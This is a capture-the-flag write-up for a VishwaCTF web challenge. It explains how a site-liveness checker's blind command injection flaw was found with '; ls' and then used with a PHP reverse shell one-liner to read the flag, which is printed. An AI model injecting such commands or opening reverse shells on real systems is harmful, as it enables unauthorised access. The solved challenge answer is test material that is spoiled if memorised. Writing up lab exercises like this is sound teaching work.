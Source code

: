 # aLive
> In my college level project I created this website that tells us if any domain/ip is active or not. But there is a catch.

## About the Challenge
We have been given a website that has a functionality to check our website is active or not

![preview](images/preview.png)

## How to Solve?
This website has a `Blind Command Injection` vulnerability. Because when I input `; ls` the website returned success instead of fail

![testing](images/testing.png)

But in this case, when I used `cat` command. The website returned `Something went wrong!`. So I decided to use reverse shell command

```
; php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh <&3 >&3 2>&3");'
```

And then read `flag.txt` file to obtain the flag

![flag](images/flag.png)

```
VishwaCTF{b1inD_cmd-i}
```